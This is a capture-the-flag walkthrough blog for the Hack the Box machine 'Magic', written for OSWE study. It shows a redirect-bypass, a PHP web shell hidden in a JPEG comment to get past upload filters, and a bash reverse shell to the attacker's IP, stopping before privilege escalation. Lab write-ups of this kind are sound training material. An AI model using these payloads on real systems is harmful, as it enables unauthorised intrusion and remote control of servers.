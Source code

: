 # OSWE Prep - Hack the Box Magic

![](/linux-boxes/magic/images/01.png)

This is the 1st blog out of a series of blogs I will be publishing on retired HTB machines in preparation for the OSWE. The full list of OSWE like machines compiled by [TJ_Null](https://twitter.com/TJ_Null) can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). This box is not on TJ_Null's list, however, when working on the initial foothold, I found it to be very similar to an exercise I worked on in the OSWE labs and therefore, made the decision to include it in the list of boxes.

The blog will be divided into three sections:

* **Box Walkthrough:** This section provides a walkthrough of how to solve the box.
* **Automated Script(s):** This section automates the web application attack vector(s) of the box. This is in an effort to improve my scripting skills for the OSWE certification.
* **Code Review:** This section dives into the web application code to find out what portion(s) of the insecure code introduced the vulnerabilities. Again, this is in an effort to improve my code review skills for the OSWE certification.

## Box Walkthrough

This section provides a walkthrough of how to solve the box.

### Reconnaissance

Run [AutoRecon](https://github.com/Tib3rius/AutoRecon) to enumerate open ports and services running on those ports.

```
autorecon.py 10.10.10.185
```

View the full TCP port scan results.

```
root@kali:~/# cat _full_tcp_nmap.txt 
...
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
... 
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))                   
| http-methods:                                                                      
|_  Supported Methods: GET HEAD POST OPTIONS                                         
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 
....
```

We have two ports open.
* **Port 22:** running OpenSSH 7.6p1
* **Port 80:** running Apache httpd 2.4.29

Before we move on to enumeration, let's make some mental notes about the scan results.
* The OpenSSH version that is running on port 22 is not associated with any critical vulnerabilities, so it's unlikely that we gain initial access through this port, unless we find credentials.
* Port 80 is running a web server. AutoRecon by default runs gobuster and nikto scans on HTTP ports, so we'll have to review them. Since this is the only other port that is open, it is very likely to be our initial foothold vector.

### Enumeration

Visit the application in the browser.

![](/linux-boxes/magic/images/02.png)

Viewing the page source doesn't give us any useful information. Next, view Autorecon's gobuster scan.

```
root@kali:~/# cat tcp_80_http_gobuster.txt | grep -v 403
/assets (Status: 301) [Size: 313]
/images (Status: 301) [Size: 313]
/index.php (Status: 200) [Size: 5069]
/index.php (Status: 200) [Size: 5067]
/login.php (Status: 200) [Size: 4221]
/logout.php (Status: 302) [Size: 0]
/upload.php (Status: 302) [Size: 2957]
```

Right off the bat, I see something that could potentially be very concerning. The upload.php & logout.php pages are internal pages (require authentication) that lead to a 302 redirect when a user attempts to access them. However, the interesting part is the response size. The upload.php response size is much larger than what a normal 302 redirect response would be. So if I had to guess, the PHP script is not properly terminated after user redirection, which could give us unrestricted access to any internal page in the application. 

We can confirm this using Burp proxy. Visit the upload.php script and intercept the traffic in Burp. As can be seen in the below image, before the request is redirected to the login page, we are served with the upload page.

![](/linux-boxes/magic/images/03.png)

Now all we have to do is change the HTTP Status Code from "302 Found" to "200 OK" and we get access to the upload page. To have Burp automatically do that for you, visit the Proxy > Options tab. In the Match and Replace section, set the following options.

![](/linux-boxes/magic/images/04.png)

Now visiting the upload.php page in the browser does not redirect to the login.php page.

![](/linux-boxes/magic/images/05.png)

An improperly implemented upload functionality could potentially give us code execution on the box. However, that would require two conditions:
1. Being able to upload a shell on the box
2. Being able to call and execute that shell

Even if I could upload PHP code, it's not much use if I can't call it. So let's upload a JEPG image and see if we can call it through the web server.

![](/linux-boxes/magic/images/06.png)

We get a file has been uploaded message. Visiting the root directory, we see that our image is included in the slide show.

![](/linux-boxes/magic/images/07.png)

Viewing the page source gives us the path to the image.

![](/linux-boxes/magic/images/08.png)

Good. So we do have a way to call the image. Now all we need to do is figure out a way to bypass file upload restrictions to upload PHP code.

### Initial Foothold

Try and upload a file with a ".php" extension.

![](/linux-boxes/magic/images/09.png)

We get the above message indicating that there are backend restrictions on the file extension. Next, try and upload a file with the extension ".php.jpeg".

![](/linux-boxes/magic/images/10.png)

We get a different error message. So we bypassed the extension restriction, but we're now faced with another restriction. My guess is it is checking the mime type of the file. To bypass that, we'll use exiftool to add PHP code to our cat image.

```
exiftool -Comment='<?php system($_GET['cmd']); ?>' cat.jpeg
```

This adds a parameter to the GET request called cmd that we'll use to get code execution. View the type of the file.

```
root@kali:~# file cat.php.jpeg 
cat.php.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "<?php system(['cmd']); ?>", baseline, precision 8, 121x133, components 3
```

The file is still a JPEG image, so it should bypass MIME type restrictions. Upload the file.

![](/linux-boxes/magic/images/11.png)

Perfect! Now call the file with the cmd parameter to confirm that we have code execution.

![](/linux-boxes/magic/images/12.png)

We have code execution! Now, let's get a reverse shell. First, set up a listener on the attack machine.

```
nc -nlvp 443
```

Then run the request again and send it to Repeater. Next, visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and add the bash reverse shell in the 'cmd' parameter.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.171/443 0>&1'
```

Make sure to URL encode it before you send the request (Ctrl + U).

![](/linux-boxes/magic/images/13.png)

We get a shell! Let's upgrade it to a better shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```
stty raw -echo
```

Once that is done, run the command "fg" to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```
export TERM=xterm
```

Unfortunately, we're running as the web daemon user www-data and we don't have privileges to view the user.txt flag. Therefore, we need to escalate our privileges.



